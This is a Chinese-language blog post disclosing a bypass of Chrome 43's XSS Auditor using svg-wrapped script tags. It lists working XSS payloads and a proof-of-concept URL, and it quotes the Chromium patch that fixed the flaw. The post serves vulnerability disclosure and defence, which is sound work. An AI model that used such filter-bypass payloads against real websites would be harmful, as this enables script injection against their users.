 ```yaml
---
layout: post
title: Google Chrome Anti-XSS Filter Bypass
---
```


{{ page.title }}
================
<p class="date">{{ page.date | date_to_string }} - Tr3jer_CongRong</p>

#### First

众所周知Chrome浏览器的Xss Filter是基于模糊匹配敏感关键字的方式进行拦截外部JavaScript脚本注入的，然而可以通过svg标签绕过Xss Filter.

<img src="http://7xiw31.com1.z0.glb.clouddn.com/ysao8.png">

#### Details

	Affected Products:
	Google Chrome 43.0.2357.124 m (letest stable version)
	
	Discovery Date:
	16-06-15
	
	Payload:
	<svg><script>/<1/>alert()</script></svg>
	<svg><script>0<1>alert(document.domain)</script></svg>

#### POC

`OSX & Chrome 43.0.2357.65`

	http://127.0.0.1/demo.php?xss=<svg><script>/<1/>alert(document.domain)</script></svg>

<img src="http://7xiw31.com1.z0.glb.clouddn.com/4rywe7.png">

> 13年Gainover也分享过一个svg标签Bypass Chrome Xss Filter的Payload:`<svg><script xlink:href=data:,alert(1)></script></svg>`现已失效.

#### Patch

	Index: Source/core/html/parser/XSSAuditor.cppt a/Source/core/html/parser/XSSAuditor.cpp b/Source/core/html/parser/XSSAuditor.cpp
	index a1e1852201d23ac858c3b5065a2e26f52d128f4d..e73259145366c12c821a710fe83d3637529478ee 100644
	--- a/Source/core/html/parser/XSSAuditor.cpp
	+++ b/Source/core/html/parser/XSSAuditor.cpp
	@@ -471,15 +471,18 @@ bool XSSAuditor::filterCharacterToken(const FilterTokenRequest& request)
	if (m_state == PermittingAdjacentCharacterTokens)
	     return false;
 
	-    if ((m_state == SuppressingAdjacentCharacterTokens)
	-        || (m_scriptTagFoundInRequest && isContainedInRequest(canonicalizedSnippetForJavaScript(request)))) {
	+    if (m_state == FilteringTokens && m_scriptTagFoundInRequest) {
	+        String snippet = canonicalizedSnippetForJavaScript(request);
	+        if (isContainedInRequest(snippet))
	+            m_state = SuppressingAdjacentCharacterTokens;
	+        else if (!snippet.isEmpty())
	+            m_state = PermittingAdjacentCharacterTokens;
	+    }
	+    if (m_state == SuppressingAdjacentCharacterTokens) {
         request.token.eraseCharacters();
         request.token.appendToCharacter(' '); // Technically, character tokens can't be empty.
	-        m_state = SuppressingAdjacentCharacterTokens;
         return true;
     }
	-
	-    m_state = PermittingAdjacentCharacterTokens;
     return false;
	 }

#### Other

* <a target="_blank" href="http://vulnerable.info/browsers/bypassing-chromes-anti-xss-filter/">Bypassing Chrome’s Anti-XSS Filter</a>

* <a target="_blank" href="https://codereview.chromium.org/1187843005/">Issue 1187843005: XSSAuditor: Dont give a pass to subsequent script blocks if first one is empty. (Closed)</a>
